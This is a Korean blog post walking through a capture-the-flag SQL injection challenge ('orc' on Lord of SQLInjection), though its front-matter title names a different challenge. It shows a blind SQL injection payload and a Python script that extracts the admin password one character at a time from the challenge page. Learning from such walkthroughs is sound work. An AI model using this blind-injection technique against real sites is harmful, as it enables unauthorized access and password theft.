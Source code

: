```yaml
---
layout: single
title: "[Dreamhack] safe input write-up"
date: 2025-04-21 00:15 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```




## Lord of SQLInjection (orc)

### ✏️ 풀이

문제를 읽어보면 `preg_match` 함수를 이용해서 특수문자를 필터링하고 있다. 처음 필터링을 통과한 후에는 pw 파라미터에 다시 `addslashes` 함수를 적용한 후 쿼리를 넣는다. 결과 값의 pw 값이 파라미터에 넣은 pw와 일치하면 solve인 것 같다. 결과의 pw 값과 파라미터의 pw 값이 일치해야 하므로 blind sqli로 admin의 비밀번호를 맞추어야 하는 것 같다.

![image-20250421001711903](/images/2025-04-21-los-orc/image-20250421001711903.png)

<br>

일단 첫 번째로 `preg_match` 함수로 필터링하고 있는 특수문자는 아래와 같다.

```text
prob
_
.
(
)
```

<br>

싱글쿼터, 공백, or, 주석 등을 키워드 하지 않아 pw 파라미터에 넣어보면 아래와 같이 Hello admin이 나오는데 이제 아래 부분을 만족시켜야 한다.

![image-20250421002705178](/images/2025-04-21-los-orc/image-20250421002705178.png)

<br>

`addslashes` 함수는 특수문자 앞에 `\` 문자를 넣어 문자열을 다시 반환하는데, 적용되는 문자는 `'`, `"`, `\`, `NULL(Null byte)` 이다. 근데 일단 이번 문제에서는 `addslashes` 함수를 고려하지 않고 `preg_match` 함수만 보면 blind sqli로 admin의 pw 값을 알아낼 수 있다.

<br>

해당 필터링에서는 (와 )가 붙어있는 `()` 부분에 대해서만 필터링을 고려하므로 아래와 같은 식으로 pw의 값을 substr 함수를 이용해 첫 번째 문자가 ascii 함수로 65가 맞는지 검증하면 된다. 이제 맞는다면 위에 'Hello admin' 까지 나오기 때문에 참 거짓으로 blind sqli가 가능하다.

```
pw = 'or ASCII(substr(pw,1,1))=65-- -'
```

<br>

아래처럼 파이썬 코드를 작성할 수 있다. 세션 값인 PHPSESSID를 가져와서 request를 해야 오류가 나지 않는다.

```python
import requests

url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
session_id = "3amg05ksc6rm4s8dmevhre6hg6"

for pos in range(1, 21):
    found = False
    for i in range(32, 127):
        payload = f"' or ascii(substr(pw,{pos},1))={i}-- -"
        params = {"pw": payload}
        cookies = {"PHPSESSID": session_id}

        res = requests.get(url, params=params, cookies=cookies)

        if "Hello admin" in res.text:
            print(f"[+] {pos}번째 문자: {chr(i)}")
            found = True
            break
    if not found:
        print(f"[-] End")
        break

```

![image-20250421011702859](/images/2025-04-21-los-orc/image-20250421011702859.png)

<br>

해당 값을  pw 파라미터에 넣어주면 clear 된 것을 볼 수 있다.

![image-20250421011717357](/images/2025-04-21-los-orc/image-20250421011717357.png)